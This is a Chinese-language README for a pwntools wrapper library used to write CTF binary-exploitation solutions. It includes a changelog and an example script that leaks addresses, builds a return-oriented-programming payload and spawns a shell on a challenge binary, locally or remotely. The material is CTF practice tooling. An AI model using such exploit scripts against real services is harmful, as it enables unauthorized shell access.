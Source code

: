 # pwn_all_in_one

## 背景

每次写pwn题的时候，都需要使用到重复的模板，个人感觉非常的占位置，所以继承了一个pwntools.py的文件

每次写题目的时候只需要`from pwntools import *`就可以开始快速写题，而无需注意到某些烦人的代码片段

## 使用

本脚本是基于Python3的pwntools，使用到了一些Python3独有的f-string之类的东西，所以Python2的pwner可能无法使用，得自己改改

使用方法非常的简单, 把下面的pwntools.py放到`~/.local/lib/python3.X/site-packages`, Python默认导包的路径就行了

随便写了一个脚本用例来参考一下

- 如果是打本地, 直接`python3 exp.py`就可以进行本地运行了
- 如果是打远程, 使用`python3 exp.py 114.51.41.91:11451` 或者 `python3 exp.py 114.51.41.91 11451` 就可以自动打远程

当然远程ip还可以在`init`函数中设置, 或者在执行init函数之前设置`pwnio`对象的`ip`和`port`属性

```python
from pwntools import *

init("./buffer_fly")    # 调用init函数,每次只需要调用这个就可以开始写题了,必要的参数是文件名！

sla("name", "")

ru("your name:")
rl()

close_plt = pwnio.elf.plt["close"]    # 注意要调用pwnio这个类中的elf,也可以使用pwnio["elf"].plt["close"]

true_close_plt = i16(hex(uu64(ru("\n"))) + "0a") - 10
info(true_close_plt)
base = true_close_plt - (0x55765683C100 - 0x55765683B000)
info(base)

pop_rdi_ret = 0x0000000000001423 + base
ret = 0x000000000000101A + base

sa("age", b"/bin/sh|")
ru("your age:")
stack = l64()   # l64是一个封装好的接受\x7f开头的64位地址

info(f"stack --> {hex(stack)}")

bin_sh = stack + (0x7FFC4757AF40 - 0x7FFC4757B060)
back_door = base + 0x129D

payload = (
    b"sh 0>&2 ".ljust(0x28, b"a")
    + p64(pop_rdi_ret)
    + p64(bin_sh)
    + p64(back_door)
    + p64(0)
)

dbg()   # 调用gdb.attach, 如果是远程, 那么就不会执行

sa("number", payload)
sl("sh 1>&2")

ia()    # 交互
```

## 更新日志
- 2022.9.4
  - 配置了部分常用函数
- 2022.9.22
  - 默认使用wsl2 ubuntu进行debug， 若要自己使用自己的终端调试配置，在init函数中第四个参数terminal_args中添加
- 2022.9.25
  - 修复了静态文件加载会爆libc无效错误的异常
  - 添加了一个timeout模块，用来进行自定义事件的pwn
  - 更新了init函数，添加了自定义ip和port的功能，同时保留了命令行输入ip和port的功能
- 2022.10.1
  - 重构了init模块
  - 将所有的全局变量转为pwnio类中的成员变量，方便其他文件导入模块时更改
  - 删除了部分不必要的函数
  - 优化了dbg()函数，远程将不会开启gdb调试
  - 更新了open_dbg()和close_dbg()
  - 规范了函数注释
- 2022.10.31
  - 优化了pwnio，使用了Python的面向对象
  - 目前调用pwnio对象的属性可以通过`.`的方式调用，也可以使用`[]`的方式调用
  - 新添加一个均分列表的方法
- 2022.11.19
  - 新增`libcpatcher.py`文件，基于patchelf来一键修改elf文件的libc
  - 新增了leak函数，使用leak获取地址的同时在控制台打印泄露的地址
  - 更新了i16和i10函数，可以传入bytes或者str类型
  - 修改默认开启过滤 `Text is not bytes` 的警告